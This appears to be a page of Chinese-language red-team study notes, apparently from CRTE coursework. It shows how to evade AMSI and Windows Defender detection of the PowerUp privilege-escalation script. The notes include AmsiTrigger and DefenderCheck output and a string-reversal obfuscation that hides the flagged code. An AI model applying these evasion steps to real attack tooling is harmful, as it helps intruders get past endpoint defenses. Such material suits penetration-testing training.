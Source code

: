 
### PowerUp

1. AmsiTrigger_x64检查PowerUp

这里使用教材自带tools工具包里的```PowerUp_Old.ps1```

检查到有问题的代码
```
D:\BaiduNetdiskDownload\CRTE\Tools>AmsiTrigger_x64.exe -i  PowerUp_Old.ps1
[+] "= [Reflection.Assembly].Assembly.GetType('System.AppDomain').GetProperty('CurrentDomain').GetValue($null, @())
    $LoadedAssemblies = $AppDomain.GetAssemblies()

    foreach ($Assembly in $LoadedAssemblies) {
        if ($Assembly.FullName -and ($Assembly.FullName.Split(',')[0] -eq $ModuleName)) {
            return $Assembly
        }
    }

    $DynAssembly = New-Object Reflection.AssemblyName($ModuleName)
    $Domain = $AppDomain
    $AssemblyBuilder = $Domain.DefineDynamicAssembly($DynAssembly, 'Run')
    $ModuleBuilder = $AssemblyBuilder.DefineDynamicModule($ModuleName, $False)"
```

修改思路为修改被检测到的字符串，这里是做了一个逆序字符串处理
```
$String = 'niamoDppA.metsyS'
$classrev = ([regex]::Matches($String,'.','RightToLeft') | ForEach {$_.value}) -join ''
$AppDomain = [Reflection.Assembly].Assembly.GetType("$classrev").GetProperty('CurrentDomain').GetValue($null, @())
```


修改完以后，再次检查，已无返回
```
D:\BaiduNetdiskDownload\CRTE\Tools>AmsiTrigger_x64.exe -i  PowerUp_Old.ps1

D:\BaiduNetdiskDownload\CRTE\Tools>
```

2. DefenderCheck检查PowerUp
```
D:\BaiduNetdiskDownload\CRTE\Tools>DefenderCheck.exe PowerUp_Old.ps1

OriginalFileDetectionStatus is : ThreatFound
Target file size: 562959 bytes
Analyzing...

File matched signature: "HackTool:Win64/PowersploitHijack.A!dll"

[!] Identified end of bad bytes at offset 0x598EE in the original file
File matched signature: "HackTool:Win64/PowersploitHijack.A!dll"

00000000   6C 46 2F 46 59 7A 39 6A  6B 31 6F 42 31 42 41 48   lF/FYz9jk1oB1BAH
00000010   52 50 67 7A 33 45 48 6B  45 41 2F 6E 55 46 36 45   RPgz3EHkEA/nUF6E
00000020   38 70 41 41 43 68 78 42  35 42 41 49 50 34 2F 33   8pAAChxB5BAIP4/3
00000030   55 48 75 50 2F 2F 41 41  44 72 63 46 61 4E 54 66   UHuP//AADrcFaNTf
00000040   42 52 61 67 47 4E 54 51  68 52 55 50 38 56 44 4F   BRagGNTQhRUP8VDO
00000050   46 41 41 49 58 41 64 57  65 44 50 61 41 64 51 51   FAAIXAdWeDPaAdQQ
00000060   41 43 64 64 72 2F 46 52  6A 67 51 41 43 44 2B 48   ACddr/FRjgQACD+H
00000070   68 31 7A 34 6B 31 6F 42  31 42 41 46 5A 57 61 67   h1z4k1oB1BAFZWag
00000080   57 4E 52 66 52 51 61 67  47 4E 52 51 68 51 56 76   WNRfRQagGNRQhQVv
00000090   38 56 43 4F 46 41 41 46  44 2F 46 58 44 67 51 41   8VCOFAAFD/FXDgQA
000000A0   43 4C 44 63 51 65 51 51  43 44 2B 66 39 30 6F 6C   CLDcQeQQCD+f90ol
000000B0   61 4E 56 66 42 53 55 49  31 46 39 46 42 52 2F 78   aNVfBSUI1F9FBR/x
000000C0   55 45 34 55 41 41 68 63  42 30 6A 57 61 4C 52 51   UE4UAAhcB0jWaLRQ
```